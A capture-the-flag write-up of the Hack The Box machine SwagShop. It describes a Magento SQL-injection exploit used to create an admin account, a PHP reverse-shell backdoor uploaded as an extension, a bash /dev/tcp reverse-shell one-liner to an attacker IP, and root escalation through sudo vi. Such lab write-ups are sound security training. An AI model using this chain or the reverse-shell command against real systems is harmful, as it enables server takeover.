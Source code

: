 ```yaml
---
layout: post
title: "Hack The Box: SwagShop write-up"
date: 2019-06-12
excerpt: "Really cool box that chains together two different exploits for the Magento CMS followed by a really simple yet amusing way of privilege escalation with vi! "
tags: [Hack The Box, Pentesting, Magento, Python, Searchsploit, Vi]
categories: [Hack The Box]
comments: true
feature: /assets/posts_details/SwagShop/images/header.png
---
```


# Hack The Box: SwagShop machine write-up

This machine, that runs with ip ``10.10.10.140``, was a really good and entertaining way of learning about Magento CMS and how different exploits can be chained together in order to achieve RCE. The first one is based on a SQL injection which lets us add a user to the Magento db, which then grants us access to the admin panel. From there, we can upload a backdoor that can be escalated to root thanks to a misconfiguration on the server that lets us run ``sudo`` with ``vi`` as user ``www-data``.

The only downside of it was that most people were making it crash all the time, which made it really hard for me to be able to experiment without constant resets... Overall I'd say this was one of the most unstable boxes I've done.

Let's begin!

### Enumeration

As always, we start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```sh
# Nmap 7.70 scan initiated Tue Jun 11 10:41:39 2019 as: nmap -sV -sC -oA nmap/initial 10.10.10.140
Nmap scan report for 10.10.10.140
Host is up (0.025s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Error 503: Service Unavailable
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 11 10:41:53 2019 -- 1 IP address (1 host up) scanned in 14.33 seconds
```

We don't have much, just SSH and a web server, so we'll start by checking out port 80.

#### Web server enumeration

At first we are greeted with what looks like a store. Upon this, I immediately run dirb on the background so that it runs while I tinker around with the website.

*Website found on port 80*

![Img](/assets/posts_details/SwagShop/images/website.png)

I didn't found much manually, so I came back to check the dirb results and bingo! It found something:

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jun 12 17:18:17 2019
URL_BASE: http://10.10.10.140/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.140/ ----
==> DIRECTORY: http://10.10.10.140/app/                                         
==> DIRECTORY: http://10.10.10.140/downloader/                                  
==> DIRECTORY: http://10.10.10.140/errors/                                      
+ http://10.10.10.140/favicon.ico (CODE:200|SIZE:1150)                          
==> DIRECTORY: http://10.10.10.140/includes/                                    
+ http://10.10.10.140/index.php (CODE:200|SIZE:16097)                           
==> DIRECTORY: http://10.10.10.140/js/                                          
==> DIRECTORY: http://10.10.10.140/lib/                                         
==> DIRECTORY: http://10.10.10.140/media/                                       
==> DIRECTORY: http://10.10.10.140/pkginfo/                                     
+ http://10.10.10.140/server-status (CODE:403|SIZE:300)                         
==> DIRECTORY: http://10.10.10.140/shell/                                       
==> DIRECTORY: http://10.10.10.140/skin/                                        
==> DIRECTORY: http://10.10.10.140/var/
```

Accessing ``/downloader`` we can observe that the website is using Magento, a CMS that was subject to some attacks in the past.

*Control panel for Magento (``/downloader``)*

![Img](/assets/posts_details/SwagShop/images/downloader.png)

#### Gaining user with Magento

We don't have any credentials to log in to the control panel, so I went straight into searchsploit to see if there were any exploits available.

*Results from searchsploit search*

![Img](/assets/posts_details/SwagShop/images/searchsploit.png)

I started to try all of them until one finally worked: Magento eCommerce - Remote Code Execution. I copied the python script to my working directory with: ``searchsploit -m exploits/xml/webapps/37977.py```. And had a look at it. It looked like a SQL injection, so I ran it after modifying the following lines:

```py
target = "http://10.10.10.140/index.php"
```

Then I modified the credentials I wanted to have to be ``root2u:root2u`` and ran it:

*Output of exploit script*

![Img](/assets/posts_details/SwagShop/images/exp1.png)

The I just log in to the panel with those creds and have the possibility to upload some kind of package:

*``/downloader`` control panel*

![Img](/assets/posts_details/SwagShop/images/control.png)

I googled around and found this [website](https://dustri.org/b/writing-a-simple-extensionbackdoor-for-magento.html) where it's explained how it's possible to create a package with a simple php file. I followed it and used this [shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from pentestmonkey. However, it didn't work and the php file was recognised as a directory when I tried to access it.

*Uploading module as a ``.tar.gz`` file doesn't work*

![Img](/assets/posts_details/SwagShop/images/failed.png)

Eventually I bumped into an article on the internet where they were using another extension: ``.tgz``. I tried and it worked!

Running a ``curl`` on ``http://10.10.10.140/errors2/backdoor.php`` grants me a shell and we can read the user flag:

*Shell gained from php backdoor*

![Img](/assets/posts_details/SwagShop/images/shell1.png)

![Img](/assets/posts_details/SwagShop/images/shell2.png)

### Getting to root

Once on this shell I noticed that I needed an actual proper shell and sho I opened up another listener with netcat and ran: ``bash -c 'bash -i >& /dev/tcp/10.10.12.11/8080 0>&1'``.

After that, I ran ``sudo -l`` to see if I could run any commands as root and it turned out that I did:

*Improving the shell*

![Img](/assets/posts_details/SwagShop/images/shell3.png)

I can run the file editor ``vi`` as root under the directory ``/var/www/html/*`` so I created a new file and used a command propmt command to read the root flag (commands can be executed from within vi):

*Getting the root hash*

![Img](/assets/posts_details/SwagShop/images/shell4.png)

![Img](/assets/posts_details/SwagShop/images/shell5.png)

And that's it! I could've also ran ``:!/bin/bash`` to get a root shell and read the flag from there, but I just did this as it was more straightforward.

I hope you learned something with this cool box and enjoyed the write-up!

---

*Diego Bernal Adelantado*
